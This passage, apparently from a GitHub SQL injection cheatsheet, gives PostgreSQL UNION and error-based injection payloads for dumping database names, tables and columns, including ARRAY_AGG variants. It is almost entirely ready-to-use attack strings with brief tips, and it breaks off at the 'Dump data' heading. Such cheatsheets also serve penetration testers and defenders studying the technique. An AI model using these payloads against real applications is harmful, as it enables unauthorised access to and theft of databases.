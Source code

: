 [](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#manually-dumping)

DIOS are complex queries and sometime they leads to errors, so using simpler queries to do specific dumping (like tables or columns) might be a better idea.

### Dump database names

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-database-names)

`'+union+select+cast(datname+as+int),null,null,null,null,null++FROM+pg_database--`  
or without casting to int:  
`'+union+select+datname,null,null,null,null,null++FROM+pg_database--`

### Dump tables

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-tables)

Let's assume that there are 4 columns in total and the first column is vulnerable. The following query can be used to dump all the tables:  
`' union select cast(table_name as int), null, null, null FROM information_schema.tables--`  
or without casting to int:  
`' union select table_name, null, null, null FROM information_schema.tables--`

Another query to dump tables via **ARRAY_AGG** function (thanks [@Nikhil](https://github.com/0xw0lf) for the query):  
`-1 ' UNION ALL SELECT NULL,ARRAY_AGG(COALESCE(tablename::text,' '))::text,NULL,NULL,NULL FROM pg_tables WHERE schemaname IN ('<database>')--`

### Dump columns

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-columns)

You can only dump columns table per table (unless if you use DIOS which shows every columns of every table). In this case, we want to dump the columns of a table named **users**:  
`union select cast(column_name as int), null, null, null FROM information_schema.columns WHERE table_name='users'--+`  
or without casting to int:  
`union select column_name, null, null, null FROM information_schema.columns WHERE table_name='users'--+`

If none of the mentioned queries worked, try dumping with **ARRAY_AGG** function (thanks [@Nikhil](https://github.com/0xw0lf) for the query):  
`-1' UNION ALL SELECT NULL,NULL,ARRAY_AGG(COALESCE(attname::text,(CHR(32))))::text,NULL,NULL FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname='<table>' AND nspname='<database>'--`

### Dump data

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-data)

